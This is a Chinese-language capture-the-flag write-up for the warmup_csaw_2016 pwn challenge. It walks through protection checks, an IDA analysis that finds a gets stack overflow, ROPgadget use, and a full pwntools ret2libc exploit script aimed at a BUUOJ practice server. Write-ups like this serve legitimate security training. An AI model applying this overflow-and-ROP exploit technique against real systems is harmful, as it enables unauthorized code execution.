 # 知识点

ret2libc（提供system和cat flag）




# 题目分析

1. 查看保护情况。没开启任何保护。

   ```bash
   [*] '/root/Desktop/warmup_csaw_2016'
       Arch:     amd64-64-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX disabled
       PIE:      No PIE (0x400000)
       RWX:      Has RWX segments
   ```

2. 拖入IDA，发现main函数存在gets栈溢出漏洞。并且提供了system函数。

   <img src="./asset/ida1.png" alt="ida1" style="zoom:33%;" />

3. 按shift + f12发现可疑字符串 cat flag.txt。

   <img src="./asset/ida2.png" alt="ida1" style="zoom:33%;" />

4. 很明显，题目提供了libc中的system函数，并且提供了cat flag.txt字符串，直接ret2libc即可。

   调用system函数，传递参数cat flag.txt。x64参数传递顺序：rdi、rsi、rdx、rcx、r8、r9、栈。

   我们还需要一个ROPgadget，将参数传递至rdi寄存器：

   ```bash
   ROPgadget --binary warmup_csaw_2016 --only "pop|ret"
   ```

   

# Exp

```python
from pwn import * 

context(arch = 'amd64', os = 'linux', log_level = 'debug')

io = process('./warmup_csaw_2016')
io = remote('node4.buuoj.cn', '25103')
elf = ELF('./warmup_csaw_2016')

system = elf.plt['system']
binsh = elf.search('cat flag.txt').next()

pop_rdi = 0x400713
ret = 0x4004a1

payload = 'A' * 0x40 + 'deadbeef' + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)
io.sendline(payload)

io.interactive()
```

